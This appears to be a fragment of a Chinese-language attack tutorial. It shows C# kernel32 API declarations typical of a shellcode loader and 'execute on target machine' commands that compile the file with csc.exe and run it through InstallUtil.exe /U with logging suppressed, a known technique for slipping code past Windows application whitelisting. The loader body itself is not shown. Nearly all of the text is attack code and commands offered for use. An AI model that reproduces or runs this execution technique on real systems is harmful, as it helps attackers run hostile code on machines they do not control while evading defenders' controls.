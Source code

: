 ```cs

[DllImport("kernel32")]

private static extern UInt32 WaitForSingleObject(

IntPtr hHandle,

UInt32 dwMilliseconds

);

[DllImport("kernel32")]

private static extern IntPtr GetModuleHandle(

string moduleName

);

[DllImport("kernel32")]

private static extern UInt32 GetProcAddress(

IntPtr hModule,

string procName

);

[DllImport("kernel32")]

private static extern UInt32 LoadLibrary(

string lpFileName

);

[DllImport("kernel32")]

private static extern UInt32 GetLastError();

}
```

#### 靶机执行

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /r:System.IO.Compression.dll /target:library /out:1.exe /platform:x64 /unsafe C:\Users\Administrator\Desktop\a\1.cs

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\Administrator\Desktop\a\1.exe

```
